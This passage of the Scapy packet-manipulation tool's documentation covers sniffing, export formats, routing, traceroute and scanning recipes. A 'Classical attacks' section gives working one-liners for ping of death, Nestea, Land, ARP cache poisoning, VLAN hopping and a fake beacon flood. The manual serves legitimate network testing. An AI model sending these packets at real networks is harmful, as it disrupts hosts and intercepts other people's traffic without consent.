    >>> p0f(p)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    >>> a=sniff(prn=prnp0f)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (0.875, ['Linux 2.4.2 - 2.4.14 (1)', 'Linux 2.4.10 (1)', 'Windows 98 (?)'])
    (1.0, ['Windows 2000 (9)'])

The number before the OS guess is the accurracy of the guess.

Filters
-------

.. index::
   single: filter, sprintf()

Demo of both bpf filter and sprintf() method::

    >>> a=sniff(filter="tcp and ( port 25 or port 110 )",
     prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
    192.168.8.10:47226 -> 213.228.0.14:110   S : 
    213.228.0.14:110 -> 192.168.8.10:47226  SA : 
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK <13103.1048117923@pop2-1.free.fr>
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : USER toto
    
    213.228.0.14:110 -> 192.168.8.10:47226   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK 
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : PASS tata
    
    213.228.0.14:110 -> 192.168.8.10:47226  PA : -ERR authorization failed
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  FA : 
    192.168.8.10:47226 -> 213.228.0.14:110  FA : 
    213.228.0.14:110 -> 192.168.8.10:47226   A : 

Send and receive in a loop 
--------------------------

.. index::
   single: srloop()

Here is an example of a (h)ping-like functionnality : you always send the same set of packets to see if something change::

    >>> srloop(IP(dst="www.target.com/30")/TCP())
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S


Importing and Exporting Data
----------------------------
PCAP
^^^^

It is often useful to save capture packets to pcap file for use at later time or with different applications::

    >>> wrpcap("temp.cap",pkts)

To restore previously saved pcap file:

    >>> pkts = rdpcap("temp.cap")

or

    >>> pkts = sniff(offline="temp.cap")

Hexdump
^^^^^^^

Scapy allows you to export recorded packets in various hex formats.

Use ``hexdump()`` to display one or more packets using classic hexdump format::

    >>> hexdump(pkt)
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67

Hexdump above can be reimported back into Scapy using ``import_hexcap()``::

    >>> pkt_hex = Ether(import_hexcap())
    0000   00 50 56 FC CE 50 00 0C  29 2B 53 19 08 00 45 00   .PV..P..)+S...E.
    0010   00 54 00 00 40 00 40 01  5A 7C C0 A8 19 82 04 02   .T..@.@.Z|......
    0020   02 01 08 00 9C 90 5A 61  00 01 E6 DA 70 49 B6 E5   ......Za....pI..
    0030   08 00 08 09 0A 0B 0C 0D  0E 0F 10 11 12 13 14 15   ................
    0040   16 17 18 19 1A 1B 1C 1D  1E 1F 20 21 22 23 24 25   .......... !"#$%
    0050   26 27 28 29 2A 2B 2C 2D  2E 2F 30 31 32 33 34 35   &'()*+,-./012345
    0060   36 37                                              67
    >>> pkt_hex
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4 
    ihl=5 tos=0x0 len=84 id=0 flags=DF frag=0 ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Hex string
^^^^^^^^^^

You can also convert entire packet into a hex string using the ``bytes()`` function::

    >>> pkts = sniff(count = 1)
    >>> pkt = pkts[0]
    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>
    >>> pkt_str = bytes(pkt)
    >>> pkt_str
    b'\x00PV\xfc\xceP\x00\x0c)+S\x19\x08\x00E\x00\x00T\x00\x00@\x00@\x01Z|\xc0\xa8
    \x19\x82\x04\x02\x02\x01\x08\x00\x9c\x90Za\x00\x01\xe6\xdapI\xb6\xe5\x08\x00
    \x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b
    \x1c\x1d\x1e\x1f !"#$%&\'()*+,-./01234567'

We can reimport the produced hex string by selecting the appropriate starting layer (e.g. ``Ether()``).

    >>> new_pkt = Ether(pkt_str)
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e
    \x1f !"#$%&\'()*+,-./01234567' |>>>>

Base64
^^^^^^
.. note::

   export_object() and import_object() require dill library. Install it with `pip3 install dill`

Using the ``export_object()`` function, Scapy can export a base64 encoded Python data structure representing a packet::

    >>> pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4L 
    ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>
    >>> exported_string = export_object(pkt)
    >>> print(exported_string)
    eNplVwd4FNcRPt2dTqdTQ0JUUYwN+CgS0gkJONFEs5WxFDB+CdiI8+pupVl0d7uzRUiYtcEGG4ST
    OD1OnB6nN6c4cXrvwQmk2U5xA9tgO70XMm+1rA78qdzbfTP/lDfzz7tD4WwmU1C0YiaT2Gqjaiao
    bMlhCrsUSYrYoKbmcxZFXSpPiohlZikm6ltb063ZdGpNOjWQ7mhPt62hChHJWTbFvb0O/u1MD2bT
    WZXXVCmi9pihUqI3FHdEQslriiVfWFTVT9VYpog6Q7fsjG0qRWtQNwsW1fRTrUg4xZxq5pUx1aS6
    ...

The output above can be reimported back into Scapy using ``import_object()``::

    >>> new_pkt = import_object(exported_string)
    >>> new_pkt
    <Ether  dst=00:50:56:fc:ce:50 src=00:0c:29:2b:53:19 type=0x800 |<IP  version=4 
    ihl=5 tos=0x0 len=84 id=0 flags=DF frag=0 ttl=64 proto=icmp chksum=0x5a7c 
    src=192.168.25.130 dst=4.2.2.1 options='' |<ICMP  type=echo-request code=0 
    chksum=0x9c90 id=0x5a61 seq=0x1 |<Raw  load='\xe6\xdapI\xb6\xe5\x08\x00\x08\t\n
    \x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f 
    !"#$%&\'()*+,-./01234567' |>>>>

Sessions
^^^^^^^^

.. note::

   Session saving/loading functions require dill library. Install it with `pip3 install dill`


At last Scapy is capable of saving all session variables using the ``save_session()`` function:

>>> dir()
['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_str', 'pkts']
>>> save_session("session.scapy")

Variables, which start with `_` are not saved, as well as those typical to IPython (In, Out, or inherited from IPython module). Also, conf is not saved.

Next time you start Scapy you can load the previous saved session using the ``load_session()`` command::

    >>> dir()
    ['__builtins__', 'conf']
    >>> load_session("session.scapy")
    >>> dir()
    ['__builtins__', 'conf', 'new_pkt', 'pkt', 'pkt_export', 'pkt_hex', 'pkt_str', 'pkts']


Making tables
-------------

.. index::
   single: tables, make_table()

Now we have a demonstration of the ``make_table()`` presentation function. It takes a list as parameter, and a function who returns a 3-uple. The first element is the value on the x axis from an element of the list, the second is about the y value and the third is the value that we want to see at coordinates (x,y). The result is a table. This function has 2 variants, ``make_lined_table()`` and ``make_tex_table()`` to copy/paste into your LaTeX pentest report. Those functions are available as methods of a result object :

Here we can see a multi-parallel traceroute (scapy already has a multi TCP traceroute function. See later)::

    >>> ans,unans=sr(IP(dst="www.test.fr/30", ttl=(1,6))/TCP())
    Received 49 packets, got 24 answers, remaining 0 packets
    >>> ans.make_table(lambda s,r: (s.dst, s.ttl, r.src))
      216.15.189.192  216.15.189.193  216.15.189.194  216.15.189.195  
    1 192.168.8.1     192.168.8.1     192.168.8.1     192.168.8.1     
    2 81.57.239.254   81.57.239.254   81.57.239.254   81.57.239.254   
    3 213.228.4.254   213.228.4.254   213.228.4.254   213.228.4.254   
    4 213.228.3.3     213.228.3.3     213.228.3.3     213.228.3.3     
    5 193.251.254.1   193.251.251.69  193.251.254.1   193.251.251.69  
    6 193.251.241.174 193.251.241.178 193.251.241.174 193.251.241.178 

Here is a more complex example to identify machines from their IPID field. We can see that 172.20.80.200:22 is answered by the same IP stack than 172.20.80.201 and that 172.20.80.197:25 is not answered by the sape IP stack than other ports on the same IP.

::

    >>> ans,unans=sr(IP(dst="172.20.80.192/28")/TCP(dport=[20,21,22,25,53,80]))
    Received 142 packets, got 25 answers, remaining 71 packets
    >>> ans.make_table(lambda s,r: (s.dst, s.dport, r.sprintf("%IP.id%")))
       172.20.80.196 172.20.80.197 172.20.80.198 172.20.80.200 172.20.80.201 
    20 0             4203          7021          -             11562             
    21 0             4204          7022          -             11563             
    22 0             4205          7023          11561         11564             
    25 0             0             7024          -             11565             
    53 0             4207          7025          -             11566             
    80 0             4028          7026          -             11567             

It can help identify network topologies very easily when playing with TTL, displaying received TTL, etc.

Routing
-------

.. index::
   single: Routing, conf.route

Now scapy has its own routing table, so that you can have your packets routed diffrently than the system::

    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0
    >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1")
    >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254")
    >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1")
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.254   eth0
    192.168.1.1     255.255.255.255 192.168.8.1     eth0
    >>> conf.route.resync()
    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0

Matplotlib
----------

.. index::
   single: Matplotlib, plot()

We can easily plot some harvested values using the Matplotlib is a python 2D plotting library. (Make sure that you have matplotlib installed.) For example, we can observe the random source ports used when sending out and receiving packets with the following command::

    In [1]: a,b=sr(IP(dst="www.target.com")/TCP(sport=[RandShort()]*200), timeout=1)
    Begin emission:
    ...................................*.........*......*......*.......*......*.....*......*
    ......*.......*.......*....*..........*.......*......*......*......*......*.....*.......*
    ......*......*......*......*......*......*......*......*......*......*......*.........*
    ......*......*......*......*......*......*........*.....*......*.....*...
    Finished to send 200 packets.
    ...*........*......*....*.......*.....*........*....*........*......*...*..*.*......*
    ......*......*......*......*........*..*....*....*............*.....*..*.*...*........*
    .............*.......*.......*.*.*..*...***......**...*.*.......*..*.*..*.*.**.*....*
    ...*.*....*.........................................................................
    ........................................................
    Received 734 packets, got 95 answers, remaining 105 packets
    
    In [2]: a.plot(lambda x:x[1].seq)
    Out[2]: [<matplotlib.lines.Line2D at 0x7f6ccccbe470>]

.. image:: graphics/plot_random_sport.png


TCP traceroute (2)
------------------

.. index::
   single: traceroute(), Traceroute

Scapy also has a powerful TCP traceroute function. Unlike other traceroute programs that wait for each node to reply before going to the next, scapy sends all the packets at the same time. This has the disadvantage that it can't know when to stop (thus the maxttl parameter) but the great advantage that it took less than 3 seconds to get this multi-target traceroute result::

    >>> traceroute(["www.yahoo.com","www.altavista.com","www.wisenut.com","www.copernic.com"],maxttl=20)
    Received 80 packets, got 80 answers, remaining 0 packets
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.243.5.254       82.243.5.254       82.243.5.254       82.243.5.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.46       212.27.50.46       212.27.50.46       212.27.50.46       
    5  212.27.50.37       212.27.50.41       212.27.50.37       212.27.50.41       
    6  212.27.50.34       212.27.50.34       213.228.3.234      193.251.251.69     
    7  213.248.71.141     217.118.239.149    208.184.231.214    193.251.241.178    
    8  213.248.65.81      217.118.224.44     64.125.31.129      193.251.242.98     
    9  213.248.70.14      213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.45.10.88    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 193.45.10.88    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 193.45.10.88    SA 206.24.226.99      64.125.28.209      66.218.64.146      
    13 193.45.10.88    SA 206.24.227.106     64.125.29.45       66.218.82.230      
    14 193.45.10.88    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 193.45.10.88    SA 216.109.120.149    64.124.229.109     66.94.229.254   SA 
    16 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 193.45.10.88    SA 216.109.118.79  SA 64.241.242.243  SA 66.94.229.254   SA 
    (<Traceroute: UDP:0 TCP:28 ICMP:52 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)

The last line is in fact a the result of the function : a traceroute result object and a packet list of unanswered packets. The traceroute result is a more specialised version (a subclass, in fact) of a classic result object. We can save it to consult the traceroute result again a bit later, or to deeply inspect one of the answers, for example to check padding.

    >>> result,unans=_
    >>> result.show()
       193.45.10.88:80    216.109.118.79:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    [...]
    >>> result.filter(lambda x: Padding in x[1])

Like any result object, traceroute objects can be added :

    >>> r2,unans=traceroute(["www.voila.com"],maxttl=20)
    Received 19 packets, got 19 answers, remaining 1 packets
       195.101.94.25:80   
    1  192.168.8.1        
    2  82.251.4.254     
    3  213.228.4.254      
    4  212.27.50.169      
    5  212.27.50.162      
    6  193.252.161.97     
    7  193.252.103.86     
    8  193.252.103.77     
    9  193.252.101.1      
    10 193.252.227.245    
    12 195.101.94.25   SA 
    13 195.101.94.25   SA 
    14 195.101.94.25   SA 
    15 195.101.94.25   SA 
    16 195.101.94.25   SA 
    17 195.101.94.25   SA 
    18 195.101.94.25   SA 
    19 195.101.94.25   SA 
    20 195.101.94.25   SA 
    >>>
    >>> r3=result+r2
    >>> r3.show()
       195.101.94.25:80   212.23.37.13:80    216.109.118.72:80  64.241.242.243:80  66.94.229.254:80   
    1  192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        192.168.8.1        
    2  82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254       82.251.4.254     
    3  213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      213.228.4.254      
    4  212.27.50.169      212.27.50.169      212.27.50.46       -                  212.27.50.46       
    5  212.27.50.162      212.27.50.162      212.27.50.37       212.27.50.41       212.27.50.37       
    6  193.252.161.97     194.68.129.168     212.27.50.34       213.228.3.234      193.251.251.69     
    7  193.252.103.86     212.23.42.33       217.118.239.185    208.184.231.214    193.251.241.178    
    8  193.252.103.77     212.23.42.6        217.118.224.44     64.125.31.129      193.251.242.98     
    9  193.252.101.1      212.23.37.13    SA 213.206.129.85     64.125.31.186      193.251.243.89     
    10 193.252.227.245    212.23.37.13    SA 213.206.128.160    64.125.29.122      193.251.254.126    
    11 -                  212.23.37.13    SA 206.24.169.41      64.125.28.70       216.115.97.178     
    12 195.101.94.25   SA 212.23.37.13    SA 206.24.226.100     64.125.28.209      216.115.101.46     
    13 195.101.94.25   SA 212.23.37.13    SA 206.24.238.166     64.125.29.45       66.218.82.234      
    14 195.101.94.25   SA 212.23.37.13    SA 216.109.74.30      64.125.31.214      66.94.229.254   SA 
    15 195.101.94.25   SA 212.23.37.13    SA 216.109.120.151    64.124.229.109     66.94.229.254   SA 
    16 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    17 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    18 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    19 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 
    20 195.101.94.25   SA 212.23.37.13    SA 216.109.118.72  SA 64.241.242.243  SA 66.94.229.254   SA 

Traceroute result object also have a very neat feature: they can make a directed graph from all the routes they got, and cluster them by AS. You will need graphviz. By default, ImageMagick is used to display the graph.

    >>> res,unans = traceroute(["www.microsoft.com","www.cisco.com","www.yahoo.com","www.wanadoo.fr","www.pacsec.com"],dport=[80,443],maxttl=20,retry=-2)
    Received 190 packets, got 190 answers, remaining 10 packets
       193.252.122.103:443 193.252.122.103:80 198.133.219.25:443 198.133.219.25:80  207.46...
    1  192.168.8.1         192.168.8.1        192.168.8.1        192.168.8.1        192.16...
    2  82.251.4.254        82.251.4.254       82.251.4.254       82.251.4.254       82.251...
    3  213.228.4.254       213.228.4.254      213.228.4.254      213.228.4.254      213.22...
    [...]
    >>> res.graph()                          # piped to ImageMagick's display program. Image below.
    >>> res.graph(type="ps",target="| lp")   # piped to postscript printer
    >>> res.graph(target="> /tmp/graph.svg") # saved to file 

.. image:: graphics/graph_traceroute.png

.. note::

   VPython is currently not ported to python3.x.


If you have VPython installed, you also can have a 3D representation of the traceroute. With the right button, you can rotate the scene, with the middle button, you can zoom, with the left button, you can move the scene. If you click on a ball, it's IP will appear/disappear. If you Ctrl-click on a ball, ports 21, 22, 23, 25, 80 and 443 will be scanned and the result displayed::

    >>> res.trace3D()

.. image:: graphics/trace3d_1.png

.. image:: graphics/trace3d_2.png

Wireless frame injection
------------------------

.. index::
   single: FakeAP, Dot11, wireless, WLAN

Provided that your wireless card and driver are correctly configured for frame injection

::

    $ iw dev wlan0 interface add mon0 type monitor
    $ ifconfig mon0 up

you can have a kind of FakeAP::

    >>> sendp(RadioTap()/
              Dot11(addr1="ff:ff:ff:ff:ff:ff",
                    addr2="00:01:02:03:04:05",
                    addr3="00:01:02:03:04:05")/
              Dot11Beacon(cap="ESS", timestamp=1)/
              Dot11Elt(ID="SSID", info=RandString(RandNum(1,50)))/
              Dot11Elt(ID="Rates", info='\x82\x84\x0b\x16')/
              Dot11Elt(ID="DSset", info="\x03")/
              Dot11Elt(ID="TIM", info="\x00\x01\x00\x00"),
              iface="mon0", loop=1)

Depending on the driver, the commands needed to get a working frame injection interface may vary. You may also have to replace the first pseudo-layer (in the example ``RadioTap()``) by ``PrismHeader()``, or by a proprietary pseudo-layer, or even to remove it.


Simple one-liners
=================


ACK Scan
--------

Using Scapy's powerful packet crafting facilities we can quick replicate classic TCP Scans.
For example, the following string will be sent to simulate an ACK Scan::

    >>> ans,unans = sr(IP(dst="www.slashdot.org")/TCP(dport=[80,666],flags="A"))

We can find unfiltered ports in answered packets::

    >>> for s,r in ans:
    ...     if s[TCP].dport == r[TCP].sport:
    ...        print(str(s[TCP].dport) + " is unfiltered")

Similarly, filtered ports can be found with unanswered packets::

    >>> for s in unans:     
    ...     print(str(s[TCP].dport) + " is filtered")


Xmas Scan
---------

Xmas Scan can be launced using the following command::

    >>> ans,unans = sr(IP(dst="192.168.1.1")/TCP(dport=666,flags="FPU") )

Checking RST responses will reveal closed ports on the target. 

IP Scan
-------

A lower level IP Scan can be used to enumerate supported protocols::

    >>> ans,unans=sr(IP(dst="192.168.1.1",proto=(0,255))/"SCAPY",retry=2)


ARP Ping
--------

The fastest way to discover hosts on a local ethernet network is to use the ARP Ping method::

    >>> ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)

Answers can be reviewed with the following command::

    >>> ans.summary(lambda s,r: r.sprintf("%Ether.src% %ARP.psrc%"))

Scapy also includes a built-in arping() function which performs similar to the above two commands:

    >>> arping("192.168.1.*")


ICMP Ping
---------

Classical ICMP Ping can be emulated using the following command::

    >>> ans,unans=sr(IP(dst="192.168.1.1-254")/ICMP())

Information on live hosts can be collected with the following request::

    >>> ans.summary(lambda s,r: r.sprintf("%IP.src% is alive"))


TCP Ping
--------

In cases where ICMP echo requests are blocked, we can still use various TCP Pings such as TCP SYN Ping below::

    >>> ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )

Any response to our probes will indicate a live host. We can collect results with the following command::

    >>> ans.summary(lambda s,r : r.sprintf("%IP.src% is alive"))


UDP Ping
--------

If all else fails there is always UDP Ping which will produce ICMP Port unreachable errors from live hosts. Here you can pick any port which is most likely to be closed, such as port 0::

    >>> ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )

Once again, results can be collected with this command:

    >>> ans.summary(lambda s,r : r.sprintf("%IP.src% is alive"))



Classical attacks
-----------------

Malformed packets::

    >>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP()) 

Ping of death (Muuahahah)::

    >>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) ) 

Nestea attack::

    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10)) 
    >>> send(IP(dst=target, id=42, frag=48)/("X"*116)) 
    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224)) 
    
Land attack (designed for Microsoft Windows)::

    >>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

ARP cache poisoning   
------------------- 
This attack prevents a client from joining the gateway by poisoning 
its ARP cache through a VLAN hopping attack. 

Classic ARP cache poisoning::

    >>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client), 
          inter=RandNum(10,40), loop=1 ) 

ARP cache poisoning with double 802.1q encapsulation::
 
    >>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2) 
          /ARP(op="who-has", psrc=gateway, pdst=client),
          inter=RandNum(10,40), loop=1 )

TCP Port Scanning 
-----------------
 
Send a TCP SYN on each port. Wait for a SYN-ACK or a RST or an ICMP error:: 

    >>> res,unans = sr( IP(dst="target") 
                    /TCP(flags="S", dport=(1,1024)) ) 

Possible result visualization: open ports

::

    >>> res.nsummary(lfilter=lambda s,r: (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)))
    
    
IKE Scanning
------------

We try to identify VPN concentrators by sending ISAKMP Security Association proposals
and receiving the answers::

    >>> res,unans = sr( IP(dst="192.168.1.*")/UDP()
                    /ISAKMP(init_cookie=RandString(8), exch_type="identity prot.") 
                    /ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal()) 
                  ) 

Visualizing the results in a list::

    >>> res.nsummary(prn = lambda s,r: r.src, lfilter = lambda s,r: r.haslayer(ISAKMP)) 
    
  

Advanced traceroute
-------------------

TCP SYN traceroute
^^^^^^^^^^^^^^^^^^

::

    >>> ans,unans=sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))

Results would be::

    >>> ans.summary(lambda s,r: r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
    192.168.1.1     time-exceeded
    68.86.90.162    time-exceeded
    4.79.43.134     time-exceeded
    4.79.43.133     time-exceeded
    4.68.18.126     time-exceeded
    4.68.123.38     time-exceeded
    4.2.2.1         SA


UDP traceroute
^^^^^^^^^^^^^^

Tracerouting an UDP application like we do with TCP is not 
reliable, because there's no handshake. We need to give an applicative payload (DNS, ISAKMP, 
NTP, etc.) to deserve an answer::

    >>> res,unans = sr(IP(dst="target", ttl=(1,20))
                  /UDP()/DNS(qd=DNSQR(qname="test.com")) 

We can visualize the results as a list of routers::

    >>> res.make_table(lambda s,r: (s.dst, s.ttl, r.src)) 


DNS traceroute
^^^^^^^^^^^^^^

We can perform a DNS traceroute by specifying a complete packet in ``l4`` parameter of ``traceroute()`` function::

    >>> ans,unans=traceroute("4.2.2.1",l4=UDP(sport=RandShort())/DNS(qd=DNSQR(qname="thesprawl.org")))
    Begin emission:
    ..*....******...******.***...****Finished to send 30 packets.
    *****...***...............................
    Received 75 packets, got 28 answers, remaining 2 packets
       4.2.2.1:udp53      
    1  192.168.1.1     11 
    4  68.86.90.162    11 
    5  4.79.43.134     11 
    6  4.79.43.133     11 
    7  4.68.18.62      11 
    8  4.68.123.6      11 
    9  4.2.2.1            
    ...


Etherleaking 
------------

::

    >>> sr1(IP(dst="172.16.1.232")/ICMP()) 
    <IP src=172.16.1.232 proto=1 [...] |<ICMP code=0 type=0 [...]| 
    <Padding load=’0O\x02\x01\x00\x04\x06public\xa2B\x02\x02\x1e’ |>>> 

ICMP leaking
------------ 

This was a Linux 2.0 bug:: 

    >>> sr1(IP(dst="172.16.1.1", options="\x02")/ICMP()) 
    <IP src=172.16.1.1 [...] |<ICMP code=0 type=12 [...] | 
    <IPerror src=172.16.1.24 options=’\x02\x00\x00\x00’ [...] | 
    <ICMPerror code=0 type=8 id=0x0 seq=0x0 chksum=0xf7ff | 
    <Padding load=’\x00[...]\x00\x1d.\x00V\x1f\xaf\xd9\xd4;\xca’ |>>>>> 


VLAN hopping 
------------

In very specific conditions, a double 802.1q encapsulation will 
make a packet jump to another VLAN::
 
    >>> sendp(Ether()/Dot1Q(vlan=2)/Dot1Q(vlan=7)/IP(dst=target)/ICMP()) 


Wireless sniffing
-----------------

The following command will display information similar to most wireless sniffers::

>>> sniff(iface = "ath0", prn = lambda x: x.sprintf("{Dot11Beacon:%Dot11.addr3%\t%Dot11Beacon.info%\t%PrismHeader.channel%\tDot11Beacon.cap%}"))

The above command will produce output similar to the one below::

    00:00:00:01:02:03 netgear      6L   ESS+privacy+PBCC
    11:22:33:44:55:66 wireless_100 6L   short-slot+ESS+privacy
    44:55:66:00:11:22 linksys      6L   short-slot+ESS+privacy
    12:34:56:78:90:12 NETGEAR      6L   short-slot+ESS+privacy+short-preamble


Recipes 
=======

Simplistic ARP Monitor
----------------------

